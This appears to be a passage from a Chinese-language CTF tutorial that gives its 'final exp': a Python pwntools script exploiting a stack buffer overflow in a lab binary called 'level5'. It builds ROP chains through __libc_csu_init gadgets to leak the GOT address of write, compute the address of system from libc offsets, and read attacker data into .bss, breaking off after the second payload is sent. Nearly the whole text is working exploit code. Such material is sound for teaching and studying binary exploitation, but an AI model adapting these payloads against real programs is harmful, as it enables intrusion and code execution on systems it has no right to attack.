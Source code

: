 最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400610) + p64(0)*3 + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_r12_r13_r14_r15_ret
payload1 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "A"*56
payload1 += p64(main)

p.recvuntil("Hello, World\n")

#ss = raw_input()

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400610) + p64(0)*3 + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_r12_r13_r14_r15_ret
payload2 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "A"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)
```